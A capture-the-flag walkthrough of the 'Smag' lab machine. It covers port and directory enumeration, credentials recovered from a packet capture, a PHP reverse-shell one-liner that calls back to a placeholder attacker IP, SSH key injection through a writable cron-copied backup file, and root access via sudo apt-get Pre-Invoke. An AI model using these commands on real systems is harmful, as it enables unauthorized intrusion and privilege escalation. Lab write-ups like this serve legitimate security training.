


## Nmap: 
---
```bash
nmap -T4 -n -A 10.65.162.84 -oN first_1000 
```

```bash
Nmap scan report for 10.65.162.84
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- we see that Apache is running and ssh is open 
- lets run a `gobuster` scan on the web-server
## gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.65.162.84 -o gobuster/first_enum
```

```bash
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 402]
/mail                 (Status: 301) [Size: 311] [--> http://10.65.162.84/mail/]
/server-status        (Status: 403) [Size: 277]
```
## more Enumeration: 
---
- lets check out the `/mail` 
- their we can see different emails from `Smag` users 

- in the email on top we see a `.pcap` file, which stands for `Packet Capture` 
- lets download it and look at it in `Wireshark` 
- we can open the file with `Wireshark` with this command: 
```bash
wireshark dHJhY2Uy.pcap
```


- here we can see the packets that got captured 
- we first 3 packets are the `TCP-Handshake` and the fourth packet is a `HTTP-Packet` that sends some data to `/login.php` 
- lets check this `HTTP-Packet` out 


- in the `HTML Form URL Encoded` we can see a `username` and a `password` 
- we can also see that the request was send to the Host: `development.smag.thm` 
- so lets add that `Domain` to our `hosts` file in `/etc`: 
```bash
10.65.162.84 development.smag.thm
```
- now we can visit that site in our Browser
- lets try to log on to the `helpdesk` account with the `password`  
- after we logged in we get send to `admin.php` and we see this: 

- this seems like a `Web-shell`, lets try to get a reverse-shell
- first I tried to execute basic commands like `ls`, `pwd` etc. but I didn't got any output on the website 
- so my guess was that the commands where executing on the machine and that the output was simply ignored 
- so that's why I used `netcat` to start up a listener: 
```bash
nc -lvnp 1234
```
- and then i copied a `PHP` one-liner reverse-shell: 
```bash
`php -r '$sock=fsockopen("<Attacker-IP-Adress>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
```
- and put it into the `form` and send it
- I was right
## Privilige Escalaltion: 
---
- so now we have a reverse-shell lets stabilize it a little bit: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
- I looked through `/var/www/` but didn't found something 
- I also discovered the user `jake` in `/home`, their was the `user.txt` that we cannot read
- so we have to find a way to escalate our privileges to become `jake` 
- when i checked the `/etc/crontab` I found this: 
```bash
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
```
- we can see that every minute the content of `jake_id_rsa.pub.backup` gets written into `authorized_keys` 
- lets check if we can manipulate `jake_id_rsa.pub.backup`
```bash
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
- yes we can 
- lets put our public-key into this file and wait 1 minute, so we can log into `jake` with ssh: 
```bash
echo "your public-key" > jake_id_rsa.pub.backup
```
- if you don't have a public/private key pair, you can create one with: 
```bash
ssh-keygen -t rsa -b 4096
```
- after you created the booth keys, you can read your public-key under `/home/<username>/.ssh/id_rsa.pub`

- lets now ssh into `jake`: 
```bash
ssh -i id_rsa jake@10.67.182.191
```
- now we can read the `user.txt` 
- lets check `sudo -l` to maybe privilege escalate our way to `root`: 
```bash
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
- lets check the `GTFOBins` if we can use `apt-get` to get `root` 
- and yes indeed we can: 
```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
- now we are `root` and can read the `root.txt` 
